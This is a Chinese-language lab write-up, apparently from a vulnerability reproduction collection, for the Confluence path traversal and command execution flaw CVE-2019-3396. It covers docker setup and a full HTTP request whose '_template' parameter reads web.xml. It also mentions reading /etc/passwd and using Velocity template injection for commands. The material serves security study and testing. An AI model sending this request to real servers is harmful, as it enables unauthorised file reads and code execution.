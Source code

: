 # Atlassian Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

参考资料：

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## 环境搭建

执行如下命令启动一个Confluence Server 6.10.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书（不要选择Data Center和Addons）：

![](1.png)

然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

如果提示填写cluster node，路径填写`/home/confluence`即可：

![](4.png)

后续可能要求你填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`：

![](5.png)

## 漏洞复现

发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![](6.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](7.png)
